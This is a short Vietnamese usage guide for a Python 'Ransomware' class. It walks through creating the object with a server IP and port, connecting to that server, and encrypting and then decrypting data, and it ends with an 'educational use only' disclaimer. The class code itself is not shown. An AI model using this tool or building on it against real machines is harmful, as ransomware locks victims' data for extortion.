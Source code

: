 ================================
Hướng Dẫn Sử Dụng Lớp Ransomware
================================

Đoạn mã đã cung cấp tạo ra một lớp `Ransomware` với các phương thức để mã hóa và giải mã dữ liệu.

1. **Khởi tạo**: Khi khởi tạo một đối tượng `Ransomware`, bạn cần cung cấp địa chỉ IP (`host`) và cổng (`port`) của máy chủ mà bạn muốn kết nối.

.. code-block:: python

    bot = Ransomware('192.168.1.12', 19100)

2. **Kết nối với máy chủ**: Phương thức `ConnectServer` sẽ thử kết nối với máy chủ thông qua địa chỉ IP và cổng đã cung cấp. Nếu không thể kết nối sau 3 lần thử, hệ thống sẽ được đặt lại.

.. code-block:: python

    bot.ConnectServer()

3. **Mã hóa**: Phương thức `Encrypted` sẽ mã hóa dữ liệu sử dụng khóa riêng tư đã được tạo.

.. code-block:: python

    bot.Encrypted()

4. **Giải mã**: Phương thức `Decrypted` sẽ giải mã dữ liệu đã được mã hóa sử dụng cùng một khóa.

.. code-block:: python

    bot.Decrypted()

Lưu ý: Đoạn mã này chỉ nên được sử dụng cho mục đích học hỏi. Việc sử dụng nó để thực hiện các hành vi vi phạm pháp luật (như tấn công mạng) có thể dẫn đến hậu quả pháp lý nghiêm trọng. Hãy luôn tuân thủ quy định pháp luật khi sử dụng và phát triển mã nguồn mở.